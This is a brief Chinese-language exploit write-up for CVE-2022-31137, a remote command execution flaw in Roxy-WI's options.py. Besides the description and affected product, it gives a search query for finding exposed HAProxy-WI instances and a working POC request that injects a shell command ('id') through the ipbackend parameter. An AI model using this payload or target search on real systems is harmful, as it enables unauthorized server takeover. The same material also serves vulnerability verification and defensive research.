 # Roxy-Wi options.py 远程命令执行漏洞 CVE-2022-31137

## 漏洞描述

Roxy-Wi options.py 存在远程命令执行漏洞，攻击者通过漏洞可以执行命令获取服务器权限

## 漏洞影响

<a-checkbox checked>Roxy-WI</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="HAProxy-WI"</a-checkbox></br>

## 漏洞复现

登录页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1658912004911-aa844957-d32a-491e-8067-10a56638cb56.png)

验证POC

```php
POST /app/options.py
  
alert_consumer=1&serv=127.0.0.1&ipbackend=%22%3Bid+%23%23&backend_server=127.0.0.1
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1658912136259-592d71bc-4bd2-4815-b31f-dc364421becb.png)